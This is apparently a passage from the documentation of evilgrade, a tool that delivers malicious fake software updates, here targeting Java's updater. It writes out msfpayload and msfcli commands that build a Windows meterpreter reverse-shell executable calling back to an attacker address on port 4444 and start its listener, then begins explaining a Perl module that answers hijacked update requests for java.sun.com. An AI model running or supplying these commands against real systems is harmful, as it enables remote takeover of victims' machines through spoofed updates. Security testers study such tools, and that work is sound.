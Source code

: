 For example if we use:
evilgrade(sunjava)>set agent '["./generatebin -o <%OUT%>/tmp/update".int(rand(256)).".exe<%OUT%>"]'
then every time we get a binary request, evilgrade will compile the line and execute the final string "./generatebin -o /tmp/update(random).exe"
generating different agents.


An easy alternative, but not dynamically, could be to generate the payload directly from msfpayload on a terminal and assign it manually to the configuration of the module.

# Example 2:

(Outside evilgrade)
[team@infobyte]$ msfpayload windows/meterpreter/reverse_ord_tcp LHOST=192.168.100.2 LPORT=4444 X > /tmp/reverse-shell.exe

(Inside evilgrade)
evilgrade(sunjava)>set agent /tmp/reverse-shell.exe

After our payload was generated, we leave a multi handler listening on the previously assigned LHOST.

(Outside evilgrade)
[team@infobyte]$ msfcli exploit/multi/handler PAYLOAD=windows/shell/reverse_tcp LHOST=192.168.100.2 LPORT=4444 E
[*] Started reverse handler on 192.168.100.2:4444 
[*] Starting the payload handler...


.:: [MODULE DEVELOPMENT] ::.

Module development is very simple. Since evilgrade is based on modules, you just have to use a package .pm (perl module).
In this case we are going to describe the sunjava update module (comments with #):

``` perl
package modules::sunjava;

use strict;
use Data::Dump qw(dump);

my $base=
{
    'name' => 'Sun Microsystems Java', #name of the module to display in the framework
    'version' => '2.0', #internal module version
    'appver' => '<= 1.6.0_22', #last application version tested with this evilgrade module
    'author' => [ 'Francisco Amato < famato +[AT]+ infobytesec.com>' ], #author
    'description' => qq{}, #brief description
    'vh' => '(java.sun.com|javadl-esd.sun.com)', #VirtualHosts that the application uses to retrieve information about the update configuration files and update binaries.
    
    #Then we have the request object's collection
    'request' => [
    #Each object it's a possible HTTP request inside the virtualhost configured for the module (java.sun.com)
  	    {
		    'req' => '(/update/[.\d]+/map\-[.\d]+.xml|/update/1.6.0/map\-m\-1.6.0.xml)', #The required URL, regex friendly
		    'type' => 'file', #it's the response type (file|string|agent|install)
		     #we can use:
                      #file: response with content file referenced in the "file" option below (./include/sunjava_map.xml)
                      #string: response with a string referenced in the "string" options below
                      #agent:  response with content file referenced in the "agent" options (options section)
                      #install: response with content file referenced in the "file" option below
                      	#It's used to know if the fake update was executed
```